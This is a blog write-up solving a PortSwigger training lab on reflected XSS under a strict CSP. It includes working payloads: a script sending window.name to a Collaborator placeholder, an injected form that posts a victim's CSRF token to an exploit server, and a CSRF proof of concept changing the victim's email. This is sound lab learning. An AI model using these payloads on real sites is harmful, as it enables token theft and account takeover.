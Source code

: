 ```yaml
---
title: Reflected XSS protected by very strict CSP, with dangling markup attack
date: 2023-11-25 00:34:00 +0800
categories: [Web, XSS]
tags: [Web, Portswigger]
---
```

Today is nearly two years since the first Portswigger Web Security was solved, I solved the last one. In this blog post, I'll share how I solve it.

## Description of the Lab

- Lab Level: Expert

This lab uses a strict [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) that blocks outgoing requests to external websites.

To solve the lab, first, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the CSP and exfiltrates a simulated victim user's [CSRF](https://portswigger.net/web-security/csrf) token using Burp Collaborator. You must change the simulated user's email address to `hacker@evil-user.net`.

It would be best if you labeled your vector with the word "Click" in order to induce the simulated user to click it. For example:

`<a href="">Click me</a>`

You can log in to your own account using the following credentials: `wiener:peter`

The lab has CSP `Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';` which make it harder to be exploited because it prevents all the access to our domains although you can inject HTML tags like `img` or `table`  

The vulnerable parameter is `email` in endpoint `/my-account/change-email` and the XSS payload is being reflected in the `/my-account`

## First Solution 

Portswigger's official solution is to use a payload to exploit dangling markup attack by sending `base` tag with attribute `target='` ending in the single quote which will make the rest of the page being sent to the exploit server or Burp collaborator client abusing the same `email` parameter with link `a` tag as following:

```javascript
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email="><a href="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit">Click me</a><base target='';
}
</script>
```

![](/assets/img/uploads/ln1.png)

If it sends successfully the name of the DOM `window` name will be changed to obtain the CSRF token then send it to the victim to change it's email address.  

![](/assets/img/uploads/ln2.png)

Unfortunately, this exploit doesn't work anymore on Google Chrome, By only working in Firefox we can't solve the lab because the victim is only using Chrome client.

## Contacting Portswigger Team 

I was wondering why this behavior is like this I read on a thread on [their website](https://forum.portswigger.net/thread/lab-reflected-xss-protected-by-csp-with-dangling-markup-attack-288ada8e) of a user complaining of such problem but in 2022 of an update on Google Chrome make the lab unsolvable. So, I asked them about it and indeed it was this and they replied that there is a competition to see if any other users can also figure this out on [X](https://twitter.com/portswiggerres/status/1726605124443750893?s=46) I notice that no one reply on it in the last 4 days then I take it a personal challenge to solve it.

## The Problem 

The real problem I'm facing is to make the application callback to the exploits server. I tried many 

## The Solution
 
The exploit scenario in my mind: 
- Determine how to make the application call the exploit server.
- Craft exploits to exfiltrate the CSRF token on me then the victim.
- Craft a POC to change the email of the email address of the victim after getting its CSRF token. 

After trying many things I came thought a writeup called [Postcards from the post-XSS world (2011)](https://lcamtuf.coredump.cx/postxss/) indeed it was old but I really was determined to solve it. In a section the witter talks about how you can inject a `form` tag so the parser will ignore the first one and use the one that I craft to get the CSRF token and start with: 

```javascript 
"></form><form%20class="login-form"%20name="evil-form"%20action="https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log"%20method="POST">
```

After some tries and playing with HTML, I know all the factors and how it is supposed to work and it finally did!

![](/assets/img/uploads/20231125122402.png)

```javascript
%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log%22%20method=%22POST%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3E%20Click%20me%20%3C/button%3E
```

![](/assets/img/uploads/20231125122458.png)

Put it in the exploit server:

```
<script>
location='https://0a3a006c041ba288822ff20900fa00c8.web-security-academy.net/my-account?email=%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log%22%20method=%22GET%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3E%20Click%20me%20%3C/button%3E';
</script>
```

I delivered the exploit to the victim and got the CSRF token:

![](/assets/img/uploads/20231125113705.png)

Then go to the `/my-account/change-email` and make a POC using BurpSuite:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3a006c041ba288822ff20900fa00c8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="Qqk80OwNNtB2cMUyIanl6OfjlXbydxgf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Finally, the lab is solved!

![](/assets/img/uploads/solved.png)

And officially I solved all the Portswigger labs and ranked 59th on their Hall of fame

![](/assets/img/uploads/20231125124325.png)
